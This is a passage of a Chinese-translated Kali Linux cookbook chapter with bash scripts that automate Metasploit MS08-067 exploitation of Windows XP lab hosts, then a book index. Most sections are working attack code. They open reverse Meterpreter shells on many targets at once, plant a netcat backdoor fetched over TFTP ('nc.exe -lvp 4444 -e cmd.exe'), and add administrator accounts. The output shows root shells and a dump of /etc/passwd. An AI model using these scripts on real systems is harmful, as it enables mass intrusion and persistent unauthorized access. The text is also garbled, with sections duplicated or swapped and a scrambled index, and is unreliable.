| | If you know the remote system is Windows, try rebooting it and scanning | |_ again. (Error NT_STATUS_OBJECT_NAME_NOT_FOUND)
| SMBv2 DoS (CVE-2009-3103): NOT VULNERABLE
| MS06-025: NO SERVICE (the Ras RPC service is inactive)
|_ MS07-029: NO SERVICE (the Dns Server RPC service is inactive)
Nmap done: 1 IP address (1 host up) scanned in 5.21 seconds
Starting Nmap 6.25 ( http://nmap.org ) at 2014-04-10 05:45 EDT
Nmap scan report for 172.16.36.225
Host is up (0.00041s latency).
PORT STATE SERVICE
445/tcp open microsoft-ds
MAC Address: 00:0C:29:18:11:FB (VMware)
Host script results:
| smb-check-vulns:
| MS08-067: VULNERABLE
| Conficker: Likely CLEAN
| regsvc DoS: NOT VULNERABLE
| SMBv2 DoS (CVE-2009-3103): NOT VULNERABLE
| MS06-025: NO SERVICE (the Ras RPC service is inactive)
|_ MS07-029: NO SERVICE (the Dns Server RPC service is inactive)
Nmap done: 1 IP address (1 host up) scanned in 5.18 seconds
```

在提供的示例中，脚本被传递给 `netscan.txt` 输出文件。在对文件进行快速分析后，脚本确定两个系统在端口 445 上运行服务。这些服务中的每一个都使用 `smb-check-vulns.nse` 脚本进行了扫描，并在终端生成了输出。

## 工作原理…

通过将 `grep` 序列作为 `for` 循环使用的值，本教程中的 bash 脚本本质上只是遍历该函数的输出。通过独立运行该函数，可以发现它只是提取了对应运行 SMB 服务的主机的 IP 地址列表。然后 `for` 循环遍历这些 IP 地址并为每个地址执行 NSE 脚本。

## 使用 MSF 利用进行 Nmap NSE 漏洞扫描

在某些情况下，开发一个结合漏洞扫描与利用的脚本可能会很有帮助。漏洞扫描往往会产生误报，因此通过对漏洞扫描结果进行后续的利用，可以对这些结果的真实性进行即时验证。在本教程中，将使用 bash 脚本执行 `smb-check-vulns.nse` 脚本，以判断主机是否易受 `MS08-067` NetAPI 漏洞利用的影响，如果 NSE 脚本显示存在，则将使用 Metasploit 自动尝试对其进行利用以验证。

### 准备工作

要使用本教程中演示的脚本，你需要访问一个运行有漏洞服务的系统，该服务可以使用 `Nmap` NSE 脚本识别，并可以使用 Metasploit 进行利用。在提供的示例中，使用了一个运行 SMB 服务的 Windows XP 系统，该服务易受 `MS08-067` NetAPI 漏洞利用的影响。有关设置 Windows 系统的更多信息，请请参阅本书中 `第 1 章` `入门` 中的 `安装 Windows Server` 教程。此外，本节将要求使用 `VIM` 或 `Nano` 等文本编辑器将脚本写入文件系统。有关编写脚本的更多信息，请参阅本书中 `第 1 章` `入门` 中的 `使用文本编辑器（VIM 和 Nano）` 教程。

### 如何实现…

接下来的示例演示了如何使用 bash 脚本将漏洞扫描和目标利用的任务任务串联在一起。在这种情况下，使用 `smb-check-vulns.nse` 脚本来确定系统是否易受 `MS08-067` 攻击的影响，如果发现漏洞，则对该系统执行相应的 Metasploit 利用程序。

```bash
#! /bin/bash

if [ ! $1 ]; then echo "Usage: #./script <RHOST> <LHOST> <LPORT>"; exit; fi

rhost=$1
lhost=$2
lport=$3

nmap --script smb-check-vulns.nse -p 445 $rhost --script-args=unsafe=1 -oN tmp_output.txt

if [ $(grep MS08-067 tmp_output.txt | cut -d " " -f 5) = "VULNERABLE" ];
then
  echo "$rhost appears to be vulnerable, exploiting with Metasploit..."
  msfcli exploit/windows/smb/ms08_067_netapi PAYLOAD=windows/meterpreter/reverse_tcp RHOST=$rhost LHOST=$lhost LPORT=$lport E;
fi

rm tmp_output.txt
```


第一行定义了解释器，第二行用于测试输入，第三、四、五行均用于根据用户输入定义变量。在此脚本中，提供的用户变量对应于 Metasploit 中使用的变量。`RHOST` 变量应定义目标的 IP 地址，`LHOST` 变量应定义反向监听器的 IP 地址，而 `LPORT` 变量应定义正在监听的本地端口。脚本在正文中随后执行的第一个任务是针对由 `RHOST` 输入定义的目标系统 IP 地址执行 `smb-check-vulns.nse` 脚本。该操作的 own 随后将以普通格式输出到一个临时文本文件中。随后，使用一个 `if...then` 条件语句并配合 `grep` 函数来测试输出文件中是否包含一个能够指示系统存在漏洞的唯一字符串。如果发现了该唯一字符串，脚本将指示系统似乎存在漏洞，并使用 Metasploit 框架命令行界面 (`MSFCLI`) 执行 Metasploit 漏洞利用（exploit）和 Meterpreter 负载（payload）。最后，在启动漏洞利用后，使用 `rm` 函数从文件系统中删除临时的 Nmap 输出文件。`test_n_xploit.sh` bash 命令的执行如下：

```bash
root@KaliLinux:~# ./test_n_xploit.sh
Usage: #./script <RHOST> <LHOST> <LPORT>
```

如果执行脚本时未提供任何参数，脚本将输出相应的用法说明。该用法说明将指示执行脚本时应按顺序带有 `RHOST`、`LHOST` 和 `LPORT` 参数。这些输入值将分别用于 Nmap NSE 漏洞扫描，以及在需要时使用 Metasploit 在目标系统上执行漏洞利用。在接下来的示例中，该脚本被用于确定 IP 地址为 `172.16.36.225` 的主机是否存在漏洞。如果确定该系统存在漏洞，则将启动漏洞利用，并连接到在 IP 地址为 `172.16.36.239` 的系统上通过 TCP 端口 `4444` 正在监听的反向 TCP Meterpreter 处理器。

```bash
root@KaliLinux:~# ./test_n_xploit.sh 172.16.36.225 172.16.36.239 4444
Starting Nmap 6.25 ( http://nmap.org ) at 2014-04-10 05:58 EDT
Nmap scan report for 172.16.36.225
Host is up (0.00077s latency).
PORT STATE SERVICE
445/tcp open microsoft-ds
MAC Address: 00:0C:29:18:11:FB (VMware)
Host script results:
| smb-check-vulns:
| MS08-067: VULNERABLE
| Conficker: Likely CLEAN
| regsvc DoS: NOT VULNERABLE
| SMBv2 DoS (CVE-2009-3103): NOT VULNERABLE
| MS06-025: NO SERVICE (the Ras RPC service is inactive)
|_ MS07-029: NO SERVICE (the Dns Server RPC service is inactive)
Nmap done: 1 IP address (1 host up) scanned in 5.61 seconds
172.16.36.225 appears to be vulnerable, exploiting with Metasploit...
[*] Please wait while we load the module tree...
, ,
/ \
((__---,,,---__))
(_) O O (_)_________
\ _ / |\
o_o \ M S F | \
\
```


需要在返回的输出中识别插件 ID。如果输出中返回了插件 ID，表示系统存在漏洞，则会执行相应的 Metasploit 利用模块。

```bash
root@KaliLinux:~# ./nessuscmd_xploit.sh
Usage: #./script <RHOST>
```

417

*Kali 工具自动化*

如果在执行脚本时未提供任何参数，脚本将将输出适当的用法说明。该用法说明将指示用户应通过带有 `RHOST` 参数执行脚本，用以定义目标 IP 地址。此输入值将同时用于 `Nessuscmd` 漏洞扫描以及在必要时使用 Metasploit 在目标系统上执行漏洞利用。在下面的示例中，该脚本被用于确定 IP 地址为 `172.16.36.135` 的主机是否存在漏洞。如果确定系统存在漏洞，将自动启动漏洞利用并建立与后门的连接。

```bash
root@KaliLinux:~# ./nessuscmd_xploit.sh 172.16.36.135
172.16.36.135 appears to be vulnerable, exploiting with Metasploit...
[*] Initializing modules...
PAYLOAD => cmd/unix/interact
RHOST => 172.16.36.135
[*] Banner: 220 (vsFTPd 2.3.4)
[*] USER: 331 Please specify the password.
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (172.16.36.232:48126 -> 172.16.36.135:6200) at 2014-04-28 00:29:21 -0400
whoami
root
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
****TRUNCATED}****
```

由于 `Nessuscmd` 的输出被重定向到临时文件而不是使用集成输出函数，因此脚本不会返回任何输出来指示扫描是否成功，除了指示系统似乎存在漏洞且 Metasploit 正在尝试利用的字符串外。一旦脚本完成，目标系统将返回一个具有 root 权限的交互式 shell。为了演示这一点，我们同时使用了 `whoami` 和 `cat` 命令。

418

*第 8 章*

### 工作原理……

`Nessuscmd` 是 `Nessus` 漏洞扫描器自带的一个命令行工具。该工具可以通过直接从终端执行针对性扫描，来扫描并评估不同插件的结果。由于此工具像 `MSFCLI` 一样可以很容易地从 `bash` 终端调用，因此很容易编写脚本将这两个任务序列化起来，从而将漏洞扫描与漏洞利用相结合。

## 使用反向 shell 负载进行多线程 MSF 利用

使用 `Metasploit` 框架进行大型渗透测试的困难之一是，每个利用程序都必须逐个按顺序运行。在您希望确认大量系统中单个漏洞的可利用性时，逐个对每个系统进行利用的任务可能会变得枯燥且令不从心。幸运的是，通过结合 `MSFCLI` 和 `bash` 脚本的力量，可以通过运行单个脚本同时在多个系统上执行漏洞利用。本教程将演示如何使用 `bash` 在多个系统上利用同一个漏洞，并为每个系统打开一个 `Meterpreter` shell。

### 准备工作

要使用本教程演示的脚本，你需要访问多个系统，且每个系统都具有可以使用 `Metasploit` 利用的相同漏洞。在提供的示例中，复制了一个运行有漏洞版本 `Windows XP` 的虚拟机，生成了三个 `MS08-067` 漏洞实例。有关设置 Windows 系统的更多信息，请参阅本书第 1 章“入门”部分中的*安装 Windows Server* 教程。此外，本节还需要使用 `VIM` 或 `Nano` 等文本编辑器将脚本写入文件系统。有关编写脚本的更多信息，请参阅本书第 1 章“入门”部分中的*使用文本编辑器 (VIM and Nano)* 教程。

## 如何实现……

接下来的示例演示了如何使用 `bash` 脚本同时利用同一个漏洞的多个实例。该脚本可以通过引用 IP 地址输入列表，专门利用多个 `MS08-067` `NetAPI` 漏洞实例：

```bash
#!/bin/bash

if [ ! $1 ]; then echo "Usage: #./script <host file> <LHOST>";
exit; fi

iplist=$1
lhost=$2
i=4444

for ip in $(cat $iplist)
do
  gnome-terminal -x msfcli exploit/windows/smb/ms08_067_netapi PAYLOAD=windows/meterpreter/reverse_tcp RHOST=$ip LHOST=$lhost LPORT=$i echo "Expliting $ip"
  i=$((i+1))
done
```

脚本使用 `for` 循环为输入列表中的每个 IP 地址执行 `gnome-terminal`。这些终端中的每一个将运行 `msfcli`，以便同时对多个系统进行利用。本地端口 `i` 初始化为 `4444`，并且每增加一个系统就递增 `1`。可以如下所示执行：

```bash
root@KaliLinux:~# ./multipwn.sh
Usage: #./script <host file> <LHOST>

root@KaliLinux:~# ./multipwn.sh iplist.txt 172.16.36.239
Expliting 172.16.36.132
port 4444
Expliting 172.16.36.158
port 4445
Expliting 172.16.36.225
port 4446
```

419

*Kali 工具自动化*


[*] 正在发送 (752128 字节) 到 172.16.36.225
[*] Meterpreter 会话 1 已打开 (172.16.36.239:4446 -> 172.16.36.225:1950) 时间 2014-04-10 07:12:44 -0400
meterpreter > getuid
Server 用户名: NT AUTHORITY\SYSTEM
meterpreter >

### 自动化 Kali 工具

每个独立的终端都会启动 `MSFCLI` 的独立实例并运行漏洞利用程序。假设漏洞利用成功，将执行有效载负载（payload），并且每个独立的终端中都将获得一个交互式的 `Meterpreter` 壳。

### 工作原理……

通过为每个进程使用独立的终端，可以使用单个 `bash` 脚本执行多个并行漏洞利用。此外，通过为 `LPORT` 赋值使用递增值，可以同时执行多个反向 Meterpreter 壳。

#### 使用后门可执行文件进行多线程 MSF 攻击

本教程将演示如何使用 `bash` 跨多个系统利用同一个漏洞，并在每个系统上打开一个后门。该后门包括在目标系统上部署 `Netcat` 可执行文件，并打开一个监听服务，该服务将在接收连接后执行 `cmd.exe`。

### 准备工作

要使用本教程演示的脚本，你需要访问多个系统，且每个系统都具有可以使用 `Metasploit` 利用的相同漏洞。在提供的示例中，复制了一个运行漏洞版本 Windows XP 的虚拟机，生成了三个 `MS08-067` 漏洞实例。有关设置 Windows 系统的更多信息，请参考此书第 1 章“入门”中的`安装 Windows Server` 教程。此外，本部分需要使用 `VIM` 或 `Nano` 等文本编辑器向文件系统编写脚本。有关编写脚本的更多信息，请参考此书第 1 章“入门”中的`使用文本编辑器 (VIM and Nano)` 教程。

#### 如何实现……

接下来的示例演示了如何使用 `bash` 脚本同时利用同一个漏洞的多个实例。该脚本特别可以通过引用 IP 地址输入列表来利用多个实例的 `MS08-067` NetAPI 漏洞：

```bash
#!/bin/bash
if [ ! $1 ]; then echo "Usage: #./script <host file>"; exit; fi
iplist=$1
for ip in $(cat $iplist)
do
gnome-terminal -x msfcli exploit/windows/smb/ms08_067_netapi
PAYLOAD=windows/exec CMD="cmd.exe /c \"tftp -i 172.16.36.239 GET nc.exe && nc.exe -lvp 4444 -e cmd.exe\"" RHOST=$ip
echo "Exploiting $ip and creating backdoor on TCP port 4444"
done
```

此脚本与上一个教程中讨论的脚本不同，因为它在每个目标上都安装后门。在每个被利用的系统上，都会执行一个有效载负载，它使用集成的简单的文件传输协议 (`TFTP`) 客户端获取 `Netcat` 可执行文件，然后使用它在 TCP 端口 4444 上打开一个监听的 `cmd.exe` 终端服务。为了实现此功能，Kali 系统上需要运行一个 `TFTP` 服务。可以通过执行以下命令完成：

```bash
root@KaliLinux:~# atftpd --daemon --port 69 /tmp
root@KaliLinux:~# cp /usr/share/windows-binaries/nc.exe /tmp/nc.exe
```

第一条命令在 UDP 端口 69 上启动 `TFTP` 服务，服务目录为 `/tmp`。第二个命令用于从 `windows-binaries` 文件夹将 `Netcat` 可执行文件复制到 `TFTP` 目录。现在我们执行 `./multipwn.sh` bash 壳：

```bash
root@KaliLinux:~# ./multipwn.sh
Usage: #./script <host file>
root@KaliLinux:~# ./multipwn.sh iplist.txt
Exploiting 172.16.36.132 and creating backdoor on TCP port 4444
Exploiting 172.16.36.158 and creating backdoor on TCP port 4444
Exploiting 172.16.36.225 and creating backdoor on TCP port 4444
```

如果执行脚本时未提供任何参数，脚本将输出相应的用法说明。该用法说明将指示执行脚本时带有一个参数，指定包含目标 IP 地址列表的文本文件名。一旦使用此参数执行，一系列新终端将开始弹出。这些终端中的每一个都将运行输入列表中一个 IP 地址的漏洞利用序列。原始执行终端将随着进程的执行输出进程列表，并指示在每个终端上将创建一个后门。在每个终端的漏洞利用序列完成后，可以使用 `Netcat` 连接到有效载负载打开的远程服务：

```bash
root@KaliLinux:~# nc -nv 172.16.36.225 4444
(UNKNOWN) [172.16.36.225] 4444 (?) open
Microsoft Windows XP [Version 5.1]
(UNKNOWN) [172.16.36.225] 4444 (?) open
Microsoft Windows XP [Version 5.1]
(UNKNOWN) [172.16.36.225] 4444 (?) open
Microsoft Windows XP [Version 5.1]
```

如果在执行脚本时没有提供任何参数，脚本将输出正确的用法说明。该用法说明将指示执行脚本时应带有一个参数，指定包含目标 IP 地址列表的文本文件名。一旦使用此参数执行，一系列新终端将开始弹出。这些终端中的每一个都将运行输入列表中一个 IP 地址的漏洞利用序列。原始执行终端将随着进程的执行输出进程列表，并指示在每个终端上将创建一个后门。在每个终端的漏洞利用序列完成后，可以使用 `Netcat` 连接到有效载负载打开的远程服务：

```bash
root@KaliLinux:~# nc -nv 172.16.36.225 4444
(UNKNOWN) [172.16.36.225] 4444 (?) open
Microsoft Windows XP [Version 5.1]
(UNKNOWN) [172.16.36.225] 4444 (?) open
Microsoft Windows XP [Version 5.1]
(UNKNOWN) [172.16.36.225] 4444 (?) open
Microsoft Windows XP [Version 5.1]
```

### 工作原理……

`Netcat` 是一个功能强大的工具，可以用于各种目的。虽然这种技术可以用于 TCP 端口的建立连接，但不建议在生产系统上使用这种技术，因为由 `Netcat` 打开的后门可以被任何人访问。

#### 使用 ICMP 验证进行多线程 MSF 攻击

本教程将演示如何使用 `bash` 跨多个系统利用同一个漏洞，并使用 `ICMP` 流量验证漏洞。这种技术开销很小，可以收集漏洞系统。

### 准备工作

要使用本教程演示的脚本，你需要访问多个系统，且每个系统都具有可以使用 `Metasploit` 利用的相同漏洞。在提供的示例中，复制了一个运行漏洞版本 Windows XP 的虚拟机，生成了三个 `MS08-067` 漏洞实例。有关设置 Windows 系统的更多信息，请参考此书第 1 章“入门”中的`安装 Windows Server` 教程。此外，本部分需要使用 `VIM` 或 `Nano` 等文本编辑器向文件系统编写脚本。有关编写脚本的更多信息，请参考此书第 1 章“入门”中的`使用文本编辑器 (VIM and Nano)` 教程。

#### 如何实现……

接下来的示例演示了如何使用 `bash` 脚本同时利用同一个漏洞的多个实例。该脚本特别可以通过引用 IP 地址输入列表来利用多个实例的 `MS08-067` NetAPI 漏洞：

```bash
#!/bin/bash
if [ ! $1 ]; then echo "Usage: #./script <host file>"; exit; fi
iplist=$1
for ip in $(cat $iplist)
do
gnome-terminal -x msfcli exploit/windows/smb/ms08_067_netapi
PAYLOAD=windows/exec CMD="cmd.exe /c \"tftp -i 172.16.36.239 GET nc.exe && nc.exe -lvp 4444 -e cmd.exe\"" RHOST=$ip
echo "Exploiting $ip and creating backdoor on TCP port 4444"
done
```

此脚本与上一个教程中讨论的脚本不同，因为它在每个目标上都安装后门。在每个被利用的系统上，都会执行一个有效载负载，它使用集成的简单的文件传输协议 (`TFTP`) 客户端获取 `Netcat` 可执行文件，然后使用它在 TCP 端口 4444 上打开一个监听的 `cmd.exe` 终端服务。为了实现此功能，Kali 系统上需要运行一个 `TFTP` 服务。可以通过执行以下命令完成：

```bash
root@KaliLinux:~# atftpd --daemon --port 69 /tmp
root@KaliLinux:~# cp /usr/share/windows-binaries/nc.exe /tmp/nc.exe
```

第一条命令在 UDP 端口 69 上启动 `TFTP` 服务，服务目录为 `/tmp`。第二个命令用于从 `windows-binaries` 文件夹将 `Netcat` 可执行文件复制到 `TFTP` 目录。现在我们执行 `./multipwn.sh` bash 壳：

```bash
root@KaliLinux:~# ./multipwn.sh
Usage: #./script <host file>
root@KaliLinux:~# ./multipwn.sh iplist.txt
Exploiting 172.16.36.132 and creating backdoor on TCP port 4444
Exploiting 172.16.36.158 and creating backdoor on TCP port 4444
Exploiting 172.16.36.225 and creating backdoor on TCP port 4444
```

如果在执行脚本时未提供任何参数，脚本将输出正确的用法说明。该用法说明将指示执行脚本时应带有一个参数，指定包含目标 IP 地址列表的文本文件名。一旦使用此参数执行，一系列新终端将开始弹出。这些终端中的每一个都将运行输入列表中一个 IP 地址的漏洞利用序列。原始执行终端将随着进程的执行输出进程列表，并指示在每个终端上将创建一个后门。在每个终端的漏洞利用序列完成后，可以使用 `Netcat` 连接到有效载负载打开的远程服务：

```bash
root@KaliLinux:~# nc -nv 172.16.36.225 4444
(UNKNOWN) [172.16.36.225] 4444 (?) open
Microsoft Windows XP [Version 5.1]
(UNKNOWN) [172.16.36.225] 4444 (?) open
Microsoft Windows XP [Version 5.1]
(UNKNOWN) [172.16.36.225] 4444 (?) open
Microsoft Windows XP [Version 5.1]
```


```
sniff(lfilter=rules,store=0)
```

该脚本监听所有入站流量。当收到 TTL 值为 15 或小于 ICMP 数据包时，脚本会将该系统标记为可被利用。

```bash
root@KaliLinux:~# ./listener.py

Listening for Incoming ICMP Traffic. Use Ctrl+C to stop scanning
```

应先执行 Python 流量监听器。脚本最初不会产生任何输出。该脚本在整个利用过程中应持续运行。一旦脚本运行，即可启动 bash 利用脚本。

```bash
root@KaliLinux:~# ./multipwn.sh iplist.txt

Exploiting 172.16.36.132 and pinging

Exploiting 172.16.36.158 and pinging

Exploiting 172.16.36.225 and pinging
```

425

*Kali 工具自动化*

当执行该脚本时，原始终端 shell 将指示每个系统正在被利用，并且 ping 序列正在执行。输入列表中的每个 IP 地址都将打开一个新的 GNOME 终端。随着每个利用过程完成，目标系统应启动 ICMP 回显请求：

```bash
root@KaliLinux:~# ./listener.py

Listening for Incoming ICMP Traffic. Use Ctrl+C to stop scanning

172.16.36.132 is exploitable

172.16.36.158 is exploitable

172.16.36.225 is exploitable
```

假设利用成功，Python 监听脚本将识别生成的流量，并将 ICMP 流量的每个源 IP 地址列为可利用。

### 工作原理……

ICMP 流量看起来并不是验证目标系统可利用性的一种直观方法。然而，它实际上运行非常有效。单个 ICMP 回显请求不会在目标系统中留下任何利用痕迹，且不需要过多的开销。此外，15 的自定义 TTL 值使得极不可能产生误报，因为几乎所有系统的初始 TTL 值都是 128 或更高。

### 带有管理员账户创建的多线程 MSF 利用

本配方（recipe）将演示如何使用 bash 跨多个系统利用同一个漏洞，并在每个系统上添加新的管理员账户。这种技术可以用于通过集成终端服务或 SMB 身份验证访问后被破解的系统。

### 准备工作

要使用本配方中演示的脚本，你需要访问多个系统，且每个系统都具有一个可以使用 Metasploit 利用的相同漏洞。在提供的示例中，通过复制一个运行受漏洞版本 Windows XP 的虚拟机，生成了三个 MS08-067 漏洞实例。关于设置 Windows 系统的更多信息，请参阅本书第 1 章“入门指南”中的`安装 Windows Server`配方。此外，本节需要使用诸如 `VIM` 或 `Nano` 等文本编辑器向文件系统写入脚本。关于编写脚本的更多信息，请参阅本书第 1 章“入门指南”中的`使用文本编辑器（VIM 和 Nano）`配方。

426

*第 8 章*

### 如何实现……

接随其后的示例演示了如何使用 bash 脚本可以同时利用同一个漏洞的多个实例。该脚本特别可以通过引用 IP 地址输入列表，来利用多个 MS08-067 NetAPI 漏洞实例：

```bash
#!/bin/bash

if [ ! $1 ]; then echo "Usage: #./script <host file> <username> <password>"; exit; fi

iplist=$1
user=$2
pass=$3

for ip in $(cat $iplist)
do
gnome-terminal -x msfcli exploit/windows/smb/ms08_067_netapi

PAYLOAD=windows/exec CMD="cmd.exe /c \"net user $user $pass /add && net localgroup administrators $user /add\"" RHOST=$ip E

echo "Exploiting $ip and adding user $user"

done
```

该脚本与之前的多线程利用脚本不同，原因在于负载。在这种情况下，利用成功后会执行两个顺序命令。

这两个命令中的第一个会创建一个名为 `hutch` 的新用户账户并定义关联密码。第二个命令将新创建的用户账户添加到本地 Administrators 组：

```bash
root@KaliLinux:~# ./multipwn.sh

Usage: #./script <host file> <username> <password>

root@KaliLinux:~# ./multipwn.sh iplist.txt hutch P@33word

Exploiting 172.16.36.132 and adding user hutch

Exploiting 172.16.36.158 and adding user hutch

Exploiting 172.16.36.225 and adding user hutch
```

427

*Kali 工具自动化*

如果在执行脚本时不提供任何参数，脚本将输出相应的用法。此用法说明执行脚本时应带有一个参数，指定包含目标 IP 地址列表的文本文件文件名。一旦使用此参数执行，一系列新终端将开始弹出。这些终端中的每一个都将运行输入列表中一个 IP 地址的利用序列。原始执行终端将在进程执行时输出进程列表，并指示新用户账户将被创建。在每个终端完成利用后，可以通过集成终端服务或 SMB 身份验证访问已破解的系统。为了验证已添加账户，可以使用 Metasploit 的 `smb_login` 辅助模块进行远程登录：

```msf
msf > use auxiliary/scanner/smb/smb_login
msf auxiliary(smb_login) > setUser hutch
SMBUser => hutch
msf auxiliary(smb_login) > set Pass P@33word
SMBPass => P@33word
msf auxiliary(smb_login) > set RHOSTS 172.16.36.225
RHOSTS => 172.16.36.225
msf auxiliary(smb_login) > run
[*] 172.16.36.225:445 - Starting SMB login
[+] 172.16.36.225:445 - SUCCESSFUL LOGIN (Windows 5.1) hutch : [STATUS_SUCCESS]
[*] Username is case insensitive
[*] Domain is ignored
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module completed
```

`SMB_login` 辅助模块的结果表明新凭据登录成功。该新创建的账户可以用于进一步的目的，或者可以使用脚本测试该账户的存在以验证漏洞。

通过在每个执行的系统上添加账户，攻击者可以对该系统执行后续操作。这种方法既有优点也有缺点。在被破解的系统上添加新账户比破解现有账户更快，并且可以访问现有远程服务（如 RDP）。另一种，添加新账户并不非常隐蔽，有时会触发基于主机的入侵检测系统的警报。

428

索引

A
Burp Suite Comparison used, for performing web application
Acknowledge (ACK) 48
analysis 381, 382
ACK scan module, Metasploit 265
Burp Suite Decoder
Address Resolution Protocol (ARP) 47
used, for performing web application
admin account creation
analysis 386, 387
multithreaded MSF exploitation, performing
Burp Suite engagement tools with 426-428
Analyze target 374
AF_INET argument 214
Discover content 374
Amap
Find comments 374
about 221, 226
Find references 374
used, for gathering service banners 221-224
Find scripts 374
used, for performing service
Schedule task 374
identification 226-229
Search 374
ARPing
Simulate manual testing 374
about 58
used, for performing web application
used, for performing layer 2 discovery 58-62
analysis 373, 374
ARP poisoning 244
Burp Suite Intruder used, for performing web application
B
analysis 378-380
Burp Suite Proxy
backdoor executable
used, for performing web application
multithreaded MSF exploitation, performing
analysis 375, 376
with 422-424


# Burp Suite Repeater
`bash scripting` 410
用于执行 Web 应用程序

# 暴力破解应用 379
分析 382-385
## 缓冲区溢出

# Burp Suite Scanner
关于 298
用于执行 Web 应用程序
识别、模糊测试使用 299-301
分析 376-378
远程模糊测试，执行

# Burp Suite Sequencer
基于 302-305
用于执行 Web 应用程序

# Burp Suite
分析 388, 389
关于 40, 369

# Burp Suite Spider
在 Kali Linux 上配置 39-42
关于 371
定义 Web 应用程序目标
用于执行 Web 应用程序
配合 369, 370
分析 371, 372

# C
## DoS 攻击
关于 297
捕获 SQL 注入
执行，使用数据库 354-357
使用 `sqlmap` 请求 397-399
使用 `Metasploit` 执行 348-354
命令注入漏洞
执行，使用 `Nmap NSE` 344-347
使用 HTTP 请求验证 402-404
使用 ICMP 流量验证 405, 406

# E
## 命令行界面 (CLI) 408
## 命令行扫描
## 漏洞利用数据库
执行，使用 `Nessuscmd` 288-290
关于 354
## 常见漏洞与暴露。*参阅* `CVE`
用于执行 DoS 攻击 354-357

# 压缩率信息泄露简单化 (CRIME) - *等等，该文本在 F 下*

# F
## (CRIME) 368
流量放大 DoS 攻击条件
## 完成 (FIN) 48
放大 298
防火墙识别
重定向 298
使用 `Metasploit` 执行 264-268
Burp Suite 配置
使用 `Nmap` 执行 262-264
在 Kali Linux 上 39-42
使用 `Scapy` 执行 247-262
安全实验室配置
## `fping`
关于 90
配合 VMware Fusion (Mac OS X) 13-16
配合 VMware Player (Windows) 7-12
用于执行第 3 层发现 90-93
SSH 配置 31-34
模糊测试 298
连接扫描 127
## 模糊测试
用于缓冲区溢出的执行
## 跨站请求伪造 (CSRF) 399
## CSRF 测试
识别 299-301
自动化 399-402
## `cut` 函数 59

# G
## `CVE` 272, 303
## GET 方法 SQL 注入
`CVE-2006-2961` 303
使用 `sqlmap` 执行 390-394

# D
## `grep` 409
`Nmap` 可搜索输出分析 408, 409
## DDoS 305
## Debian 软件包管理器 (`dpkg`) 工具 37
拒绝服务攻击。*参阅* DoS 攻击
## `hping3`
发现扫描 45
关于 94, 167
用于执行第 3 层发现 94-100
## 分布式拒绝服务。*参阅* `DDoS`
## Dmitry
关于 192, 217
发现 115-124
用于收集服务指纹 218, 219
用于执行 TCP 隐形扫描 167-170
用于执行 TCP 连接扫描 192-195
## HTTP 交互
HTTP 请求
## DNS 放大攻击
模拟 309-320
## 域名系统 (DNS) 109, 131, 309
命令注入漏洞，使用 402-404 验证 430

# I
## `ICMP` 47, 230
第 2 层发现，配合 `ARP` 缺点 46 优点 46
第 2 层，OSI 模型 46
## `ICMP` 交互
漏洞，使用 291-295 验证
第 3 层发现
用于执行第 3 层发现 73-77
## `ICMP` ping
关于 47, 48
使用 `fping` 执行 90-93
## `ICMP` 流量
使用 `hping3` 执行 94-100
命令注入漏洞，使用 405, 406 验证
使用 `ICMP` ping 执行 73-77
使用 `Nmap` 执行 87-90
使用 `Scapy` 执行 78-87
## `ICMP` 验证
多线程 MSF 漏洞利用
第 3 层发现，配合 `ICMP` 424-426
缺点 47 优点 47
安装，Kali Linux 28-30
安装，Metasploitable2 20, 21
安装，Nessus 35-39
安装，Ubuntu Server 16-19
安装，Windows Server 22-24
## 国际标准化 (ISO) 46
## 互联网控制消息协议。*参阅* `ICMP`
## 入侵检测系统 (IDS) 68
## 入侵预防系统 (IPS) 68

# K
## Kali Linux
关于 27
安装 28-30
Kali 工具
自动化 407

# L
## `ls` 命令 37
## 局域网 (LAN) 49
## 中人攻击 (MITM) 399
## `Metasploit`
关于 69, 140
用于执行 Web 应用程序
第 2 层发现，配合 `ARP` 缺点 46 优点 46
第 2 层，OSI 模型 46
第 3 层发现
第 4 层发现
第 4 层发现，配合 TCP
第 4 层发现，配合 UDP
第 4 层，OSI 模型 46
第 5 层，OSI 模型 46
第 6 层，OSI 模型 46
第 7 层，OSI 模型 46
用于下载 28
用于下载 20

# M
## `MAN` 274
## `MSF`
关于 192, 217
用于收集服务指纹 218, 219
用于执行 TCP 隐形扫描 167-170
用于执行 TCP 连接扫描 192-195
## `Metasploit` Framework
关于 69, 140
用于执行 Web 应用程序
第 2 层发现，配合 `ARP` 缺点 46 优点 46
第 2 层，OSI 模型 46
第 3 层发现
第 4 层发现
第 4 层发现，配合 TCP
第 4 层发现，配合 UDP
第 4 层，OSI 模型 46
第 5 层，OSI 模型 46
第 6 层，OSI 模型 46
第 7 层，OSI 模型 46
用于下载 28
用于下载 20

# N
## `Nmap`
关于 87, 90
使用 `Nmap` 执行 111-115
使用 `Nmap` 执行 262-264
使用 `Nmap` 执行 247-262
使用 `Nmap` 执行 94-100
使用 `Nmap` 执行 73-77
命令注入漏洞
使用 `Nmap NSE` 执行 344-347
使用 `Nmap NSE` 执行 344-347
使用 `Nmap NSE` 执行 344-347
## `Nessus`
关于 298
使用 `Nessuscmd` 执行 288-290
## `Nessuscmd`
关于 354
## `Netcat`
关于 192, 217
## `Networkmap`
302-305
用于执行缓冲区溢出 302-305
分析 270-275
## `Nikto`
关于 360

# O
## `Onesixtyone`
关于 244

# P
## `Ping`
关于 47, 48
## `Payload`
419-422

# R
## `Reset (RST)` 48
## `Reverse shell`
419-422

# S
## `Scapy`
关于 47, 48
使用 `Scapy` 执行 247-262
使用 `Scapy` 执行 78-87
使用 `Scapy` 执行 100-111
使用 `Scapy` 执行 115-124
使用 `Scapy` 执行 230-236
## `SQL injection`
捕获 SQL 注入
使用 `sqlmap` 请求 397-399
GET 方法 SQL 注入
使用 `sqlmap` 执行 390-394

# T
## `TTP`
关于 132, 330
资源消耗攻击 298
NTP 放大攻击
模拟 331, 332

# X
## `xProbe2`
238-241


## 安全攻击与技术

- `used`, 用于执行 sock 压力 DoS 攻击
- `attack` `339-343`
- `p0f`
- `used`, 用于执行 SYN 洪水 DoS
- `about` `241`
- `attack` `333-338`
- `used`, 用于执行被动操作系统指识别 `241-244`
